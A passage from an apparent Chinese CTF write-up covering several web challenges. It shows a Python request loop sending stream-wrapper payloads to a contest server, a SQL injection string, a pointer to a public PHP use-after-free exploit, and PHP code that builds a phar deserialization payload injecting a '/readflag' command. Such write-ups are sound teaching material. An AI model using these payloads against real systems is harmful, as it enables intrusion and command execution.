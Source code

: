 ```python
]
burp0_url = "http://121.36.222.22:88/core/index.php"
burp0_cookies = {"PHPSESSID": "d0669b0c49bf308022c430b52699b257", "JSESSIONID": "E1715942F5CF2C337F1B86D0B6F324E0"}
burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Origin": "http://121.36.222.22:88", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://121.36.222.22:88/core/index.php", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
for i in payload:
    assert len(i) <= 4
    burp0_data = {"url": "compress.zlib://data:@127.0.0.1/plain;base64,"+str(base64.b64encode(bytes(i,encoding="ascii")),encoding="ascii")}
    r=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
    print(r.status_code,burp0_data,i)
    print(r.text)
    time.sleep(0.1)


```

`flag{B11e_oX4461_Y2h1_100_OIZW4===}`



### sqlcheckin

最简单的题目之一

payload:`'-'0`



### php-uaf

https://raw.githubusercontent.com/mm0r1/exploits/master/php7-backtrace-bypass/exploit.php
直接include就可以了,但是有时候可以,有时候不可以
![image16793](https://i.loli.net/2020/03/08/Cd7RqZwApre2Lxo.png)

flag{SObARsac1TyC0V9B}

### webct

www.zip获得源码

利用mysql load data 来 反序列化

```php

$phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new Fileupload(new Listfile("/;/readflag;"));
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```
